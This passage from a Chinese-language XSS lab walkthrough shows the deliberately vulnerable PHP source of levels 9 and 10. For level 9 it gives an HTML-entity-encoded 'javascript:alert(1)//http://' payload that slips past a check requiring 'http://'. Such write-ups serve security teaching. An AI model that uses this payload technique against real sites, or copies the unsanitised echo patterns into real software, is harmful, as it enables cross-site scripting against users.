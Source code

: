 ```php
echo '<center>
<form action=level9.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
<center><img src=level9.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str7)."</h3>";
?>
</body>
</html>

```

这一关其实和上一关区别不大，但是限制了我们的 payload 中必须含有 "http://" 这几个字符，聪明的我们必然已经想到可以在注释后面添加上这几个字符进行绕过。

```payload
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;//http://
```

#### 第十关
```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level11.php?keyword=good job!"; 
}
</script>
<title>欢迎来到level10</title>
</head>
<body>
<h1 align=center>欢迎来到level10</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
<center><img src=level10.png></center>
```